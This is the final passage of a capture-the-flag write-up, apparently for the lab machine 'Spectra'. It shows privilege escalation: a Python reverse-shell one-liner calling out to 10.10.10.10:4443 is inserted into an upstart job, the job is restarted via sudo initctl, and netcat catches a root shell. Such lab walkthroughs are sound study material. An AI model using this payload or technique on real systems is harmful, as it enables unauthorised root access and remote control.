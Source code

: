 ```bash
# Edited portion
script
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
end script
```

After editing the file, initiated the `netcat` listener and stopped and started again the job, getting a reverse shell

```bash
# At Spectra as Kali
katie@spectra /etc/init $ sudo /sbin/initctl stop test10
initctl: Unknown instance:
katie@spectra /etc/init $ sudo /sbin/initctl start test10
test10 start/running, process 4947
```

```bash
# At attacker machine
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.229] 33606
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you in the next post :smiley:
